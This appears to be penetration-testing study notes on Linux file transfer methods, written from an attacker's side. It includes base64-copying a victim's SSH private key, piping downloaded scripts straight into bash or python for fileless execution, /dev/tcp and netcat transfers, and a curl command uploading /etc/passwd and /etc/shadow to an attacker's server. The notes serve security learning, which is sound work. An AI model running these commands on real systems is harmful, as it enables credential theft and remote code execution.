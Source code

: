 # Linux File Transfer Methods

## Base64 encoding

This is helpful in scenarios like <mark style="color:green;">copying the ssh key of a user to our local machine.</mark>

```bash
victim@target$cat id_rsa |base64 -w 0;echo
#Now we decode the data on the other machine:
victim@target$echo -n "encoded string" | base64 -d > id_rsa
```

to verify if the transfer was indeed successful we could check the md5 hashes on the two machines:

```bash
attack@attack$md5sum id_rsa
```

## cURL / wget

```bash
$wget <url> -O output_filename
$curl <url> -o output_filename
```

We could turn the functioning of pipes to our advantage to make a [<mark style="color:red;">fileless attack.</mark>](https://learn.microsoft.com/en-us/defender-endpoint/malware/fileless-threats)&#x20;

```bash
victim@target$wget -q0- <url-to-a-bash-script> | bash
victim@target$curl  <url-to-a-python-script> | python3
```

{% hint style="danger" %}
The <mark style="color:red;">`-qO-`</mark> option is necessary for wget to function correctly because if not specified, it will indeed download the file.&#x20;

<mark style="color:red;">`-`</mark> stands for STDOUT which is then piped directly to the python interpreter.
{% endhint %}

## Download with Bash (/dev/tcp)

We should start a listener on a machine (our host or the target's) then use the built-in /dev/TCP device file to open a connection.

```bash
attack@attack$nc -nlvp <port>
```

<pre class="language-bash"><code class="lang-bash">victim@target$exec <a data-footnote-ref href="#user-content-fn-1">3&#x3C;></a>/dev/tcp/machine-to-connect-to/port
victom@target$echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&#x26;3
victim@target$cat &#x3C;&#x26;3 > LinEnum.sh # Reads from FD3 and saves it to LinEnum.sh
</code></pre>

Or you could upload the file from your machine using:

```bash
target@target$nc -lvp 4444 > file_on_target
```

```bash
attack@attack$exec 3<>/dev/tcp/target-ip/port
attack@attack$cat my_file >&3
```

And finally to close the connection:

```bash
victim@target$exec 3<&- 3>&-
```

{% hint style="info" %}
<mark style="color:blue;">In conclusion, the</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`/dev/tcp/hostname/ip`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">is our go-to if the wget, cURL or any other method can't work since it might be already compiled (it is by default as long as bash is v2.04 or greater).</mark>

<mark style="color:blue;">The idea is to</mark>

* <mark style="color:blue;">open a listener on a machine (target or attacking host)</mark>
* &#x20;<mark style="color:blue;">launch a connection with the built-in dev file from the other.</mark>
* <mark style="color:blue;">Use a GET request or</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`cat`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">command and then redirect it to the FD... It all depends on the need and the method available since inbound or outbound connections could be denied and restricted.</mark>

<mark style="color:blue;">About the 3<> part of the command :</mark>

* <mark style="color:blue;">`3`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">refers to the file descriptor number. In Unix-like systems, file descriptors are used to manage input/output streams. File descriptors</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`0`</mark><mark style="color:blue;">,</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`1`</mark><mark style="color:blue;">, and</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`2`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">correspond to standard input, output, and error, respectively. The number</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`3`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">is chosen here to create a new file descriptor for the TCP connection.</mark>
* <mark style="color:blue;">The</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`<>`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">syntax means "open for reading and writing." This opens the file descriptor</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`3`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">as both readable and writable, allowing you to send data to and receive data from the remote server.</mark>
{% endhint %}

## SSH-SCP

> `SCP` (secure copy) is a command-line utility that allows you to copy files and directories between two hosts securely. We can copy our files from local to remote servers and from remote servers to our local machine.
>
> `SCP` is very similar to `copy` or `cp`, but instead of providing a local path, we need to specify a username, the remote IP address or DNS name, and the user's credentials.

Before using scp, we must start ssh:

```bash
# Running ssh
$sudo systemctl start ssh
$netstat -lnpt

# scp for Downloads:
$scp username@remote_host:/path/to/remote/file /path/to/local/directory

# scp for Uploads:
$scp /path/to/local/file username@remote_host:/path/to/remote/directory
```

## Web Uploads

#### HTTPS python server

The idea of this part is hosting a web server on our attacking machine and upload the wanted files from the target host. For this we'll need the [uploadserver module](https://github.com/Densaugeo/uploadserver).

```bash
# Installation
attack@attack$sudo python3 -m pip install --user uploadserver

# Creating a Self-Signed certificate for the HTTPS protocol
attack@attack$openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

# Setting up and running the server
attack@attack$mkdir https && cd https
attack@attack$sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
File upload available at /upload
Serving HTTPS on 0.0.0.0 port 443 (https://0.0.0.0:443/) ...

# Starting the upload from the compromised machine
victim@target$curl -X POST https://attacking_IP/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

{% hint style="warning" %}
The `--insecure` option is necessary since we used a Self-Signed certificate.
{% endhint %}

### Simple HTTP servers

Depending on what's installed on the compromised machine, we can run a HTTP server using one of these commands:

```bash
# 1. Python
victim@target$python3 -m http.server

    Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

victim@target$python2.7 -m SimpleHTTPServer

    Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

# 2. PHP
victim@target$php -S 0.0.0.0:8000

    [Fri May 20 08:16:47 2022] PHP 7.4.28 Development Server (http://0.0.0.0:8000) started

# 3.Ruby
victim@target$ruby -run -ehttpd . -p8000

    [2022-05-23 09:35:46] INFO  WEBrick 1.6.1
    [2022-05-23 09:35:46] INFO  ruby 2.7.4 (2021-07-07) [x86_64-linux-gnu]
    [2022-05-23 09:35:46] INFO  WEBrick::HTTPServer#start: pid=1705 port=8000
```

After running one of these one-liners, we can then download the files we prefer using a simple wget command:

```bash
attack@attacl$wget target_ip:port/filetotransfer.txt
```

[^1]: Explained below.
